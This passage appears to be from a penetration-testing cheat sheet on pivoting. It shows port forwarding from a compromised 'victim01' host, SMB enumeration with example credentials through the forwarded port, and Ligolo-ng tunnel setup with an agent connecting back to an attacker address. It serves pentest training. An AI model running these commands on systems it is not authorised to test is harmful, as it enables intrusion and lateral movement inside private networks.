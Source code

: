 ```sh

# get command help for 'listen' (sets up local fwd like ssh -L)
command (victim01) 1> listen --help

# start local port forwarding
command (victim01) 1> listen 0.0.0.0:4455 VICTIM_IP:445

# if you mess up and have to change the listening port,
# you have to kill the client and restart it.
# It's usually better to just pick a different listen port if you can.
# return to main command screen
command (victim01) 1> shutdown

# (after restarting victim client, you can retry your port forward)
# if you want to return to the top level command window
# without killing the client:
command (victim01) 1> suspend


# on kali:
# now you can use your newly forwarded port to reach inside the victim network:
smbclient -U victim --password=victimpass -p 4455 -L //NAMESERVER_IP/
# connection will be very slow.
```


## 8.11 Bending with `ligolo`

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).

```sh
# create interface
sudo ip tuntap add user asdf mode tun IFACE_NAME

# up interface
sudo ip link set IFACE_NAME up

# create route through new interface
sudo ip ro add 10.x.x.x/24 dev IFACE_NAME

## server
# start
./proxy -selfcert

# show sessions
session

# start tunneling
start

## client
# run client
agent -connect IP:11601 -ignore-cert
agent.exe -connect IP:11601 -ignore-cert

```